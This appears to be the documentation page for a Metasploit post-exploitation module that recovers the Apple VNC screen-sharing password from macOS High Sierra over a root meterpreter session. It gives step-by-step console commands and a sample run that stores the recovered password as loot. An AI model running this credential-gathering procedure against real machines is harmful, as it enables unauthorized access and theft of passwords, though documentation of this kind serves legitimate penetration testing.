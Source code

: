 ## Vulnerable Application

This module shows Apple VNC Password from Mac OS X High Sierra.

The password can be set by visiting:
System Preferences > Sharing > Screen Sharing > Computer Settings

  * macOS 10.13.6


## Verification Steps

  1. Start `msfconsole`
  2. Get an OSX meterpreter session running as root
  3. Do: `use post/osx/gather/vnc_password_osx`
  4. Do: `set SESSION [ID]`
  5. Do: `run`
  6. You should see the password


## Scenarios

  Typical run against an OSX session, with the vnc service activated:

```
msf5 exploit(multi/handler) > use post/osx/gather/vnc_password_osx
msf5 post(osx/gather/vnc_password_osx) > set SESSION 1
SESSION => 1
msf5 post(osx/gather/vnc_password_osx) > exploit

[*] Checking VNC Password...
[+] Password Found: PoCpassw
[+] Password data stored as loot in: .msf4/loot/20181002142527_default_10.0.2.15_osx.vnc.password_371610.txt
[*] Post module execution completed
msf5 post(osx/gather/vnc_password_osx) >
```
